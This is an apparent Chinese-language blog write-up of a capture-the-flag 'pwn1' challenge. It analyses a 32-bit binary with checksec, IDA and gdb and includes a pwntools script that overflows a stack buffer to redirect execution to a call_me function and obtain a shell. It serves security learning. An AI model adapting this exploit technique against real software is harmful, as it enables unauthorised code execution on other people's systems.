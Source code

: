 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      CTF-Pwn1 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-08 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-5.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
    - PWN
    - 逆向
    - 栈溢出

---
```


# CTF-Pwn1

- 首先使用`checksec`工具进行检查：

![checksec](/img/posts/2023-10-08-pwn1/images/checksec.png)

![file](/img/posts/2023-10-08-pwn1/images/file.png)

​		可以发现，`pwn1`程序为32位，仅开启了DEP保护，动态链接。

- 然后使用ida64打开进行静态分析，可见`stack_overflow`函数存在漏洞，可以进行栈溢出攻击。

`main`：

![main](/img/posts/2023-10-08-pwn1/images/main.png)

`stack_flow`：

![stack_flow](/img/posts/2023-10-08-pwn1/images/stack_flow.png)

`call_me`：

![call_me](/img/posts/2023-10-08-pwn1/images/call_me.png)

​		另外，发现内部有`call_me`函数，可知需要通过栈溢出覆盖返回地址为`call_me`函数地址。

- 上述函数地址：

| 函数名       | 地址       |
| ------------ | ---------- |
| `main`       | 0x080484C2 |
| `stack_flow` | 0x08048494 |
| `call_me`    | 0x0804846B |

- 使用gdb工具进行调试，可以查看栈的情况。![stack](/img/posts/2023-10-08-pwn1/images/stack.png)
- 构造python脚本进行动态调试：

`python`：

```python
from pwn import *

context(arch="i386", log_level="debug")
p = process("./pwn1")

call_me = 0x0804846B
leave = 0x080484C0

retn = 0x080484F4
payload = flat(b'a'*(0x28), retn, call_me)
p.recvuntil("Please finish pwn1!")
gdb.attach(p, 'b *0x080484C0')
p.send(payload)

p.interactive()
```

- 最终成功执行`call_me`函数，获取shell。

![result](/img/posts/2023-10-08-pwn1/images/result.png)


